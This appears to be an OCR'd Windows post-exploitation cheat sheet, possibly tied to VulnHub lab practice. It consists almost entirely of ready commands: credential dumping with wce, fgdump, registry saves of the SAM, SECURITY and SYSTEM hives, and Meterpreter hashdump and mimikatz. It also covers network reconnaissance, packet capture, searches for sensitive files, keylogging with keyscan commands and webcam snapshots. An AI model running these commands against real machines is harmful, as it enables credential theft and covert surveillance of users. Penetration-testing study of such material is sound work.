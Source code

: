 #### Passwords and hashes

```bash
wce32.exe -w
wce64.exe -w
fgdump.exe

# Loot passwords without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

#### Dualhomed

```bash
ipconfig /all
route print

# What other machines have been connected
arp -a
```

#### Tcpdump

```bash
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

#### Interesting files

```powershell
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
hashdump
keysscan_start
keyscan_dump
keyscan_stop
webcam_snap

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

```powerquery
  Stapler _ VulnHub
```
